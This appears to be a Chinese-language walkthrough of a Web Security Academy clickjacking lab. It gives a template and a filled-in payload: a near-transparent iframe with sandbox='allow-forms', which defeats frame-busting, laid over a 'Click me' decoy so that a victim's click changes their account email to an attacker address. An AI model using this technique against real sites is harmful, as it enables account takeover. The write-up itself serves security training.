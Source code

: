 ### 步骤

登录账号

转到利用漏洞攻击服务器，对模板进行以下调整：

1、将YOUR-LAB-ID替换为自己实验室ID，以便URL指向目标网站的用户帐户页面，其中包含"更新电子邮件"表单
2、用合适的像素值替换iframe的$height_value和$width_value变量（建议分别为700 px和500 px）。
3、用合适的像素值替换诱饵网页内容的$top_value和$side_value变量，使"更新电子邮件"按钮和"测试我"诱饵动作对齐（分别为450px和80px）
4、设置不透明度值$opacity以确保目标iframe是透明的。最初，使用0.1的不透明度，以便可以对齐iframe操作并根据需要调整位置值。对于提交的攻击，值0.0001将起作用。

5、注意sandbox ="allow-forms"属性的使用，该属性中和了framebuster脚本

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
 
我的是：
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a51004a03fefa8e848fdcac004f0027.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
